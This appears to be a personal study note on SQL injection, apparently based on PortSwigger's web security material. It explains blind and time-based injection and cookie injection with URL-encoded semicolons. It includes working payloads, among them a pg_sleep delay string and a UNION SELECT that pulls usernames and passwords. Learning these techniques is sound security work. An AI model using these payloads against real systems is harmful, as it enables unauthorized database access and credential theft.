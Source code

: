 First you determine the db you're dealing with
https://portswigger.net/web-security/sql-injection/cheat-sheet

The hardest is when there's an sql injection but errors are handeled gracefully and not returned and no data is returned
And so the only way to exploit it is to try to trigger time delays, or to make outbound requests

Sometimes server response time may not depend on db response time and there still might be sqli somewhere. In those cases we can use OAST attacks in order to trigger db to make a request and send some data in that request to our own remote server

## Check if table exists
' AND (SELECT 'x' FROM users LIMIT 1)='x'--

## General tips 
On MySQL, the double-dash sequence '--' must be followed by a space. 
Sql injection can be in url, req.body, cookie etc...  
In case you try for sqli in a cookie don't forget to url encode ";" character, because backend will treat it as a cookie seperator instead of treating it as an sql query separator, for example:
```
TrackingId=yXIQDkw8Dfm6XJs8'%3BSELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(5) END--; session=PzQeFsR8qhCAQsIiCCc63Uo3osS8zIje
```
__If we use `TrackingId=yXIQDkw8Dfm6XJs8';` instead of `TrackingId=yXIQDkw8Dfm6XJs8'%3B` backend will assume that `;` is a separation between `TrackingId` and `Session` cookies. But we want it to be a separation between sql queries__

## Most common example:
Let's say there's a url:  
https://insecure-website.com/products?category=Gifts  
On the server it'll be:  
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1 
``` 
What we can do:  
```
https://insecure-website.com/products?category=Gifts'--  
```
And we'll see not only released products but all of them

# Retrieving data from other database tables (UNION attacks)
In cases where the application responds with the results of a SQL query, an attacker can use a SQL injection vulnerability to retrieve data from other tables within the database. You can use the 'UNION' keyword to execute an additional 'SELECT' query and append the results to the original query. 

For example, if an application executes the following query containing the user input 'Gifts':
```
SELECT name, description FROM products WHERE category = 'Gifts'
```
An attacker can submit the input: 
```
' UNION SELECT username, password FROM users--
```
